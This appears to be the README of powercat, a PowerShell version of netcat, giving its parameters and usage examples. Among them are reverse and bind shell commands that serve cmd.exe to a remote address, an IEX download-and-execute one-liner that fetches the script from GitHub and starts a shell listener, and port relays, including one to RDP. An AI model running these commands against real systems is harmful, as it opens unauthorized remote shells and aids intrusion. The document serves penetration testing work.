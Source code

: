 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Formats: "-r 10.1.1.1:443", "-r 443"          [String]
    -t    Timeout option. Default: 60                          [int32]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Shove Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Redirect Output to a file:
        powershell -c '. .\powercat.ps1; powercat -l 443' > C:\outputfile
    Download and Execute Powercat Listener:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe
### powercat Relay Examples:
    Listener to Client Relay:
        powercat -l -p 8000 -r 10.1.1.16:443
    Listener to Listener Relay:
        powercat -l -p 8000 -r 4444
    Client to Listener Relay:
        powercat -c 10.1.1.16 -p 443 -r 4444
    Client to Client Relay:
        powercat -c 10.1.1.16 -p 443 -r 10.1.1.16:3389
### Stuff that Doesn't Work (Yet):
    Accepting pipeline input. (cat infile | powercat -c 10.1.1.1 443)
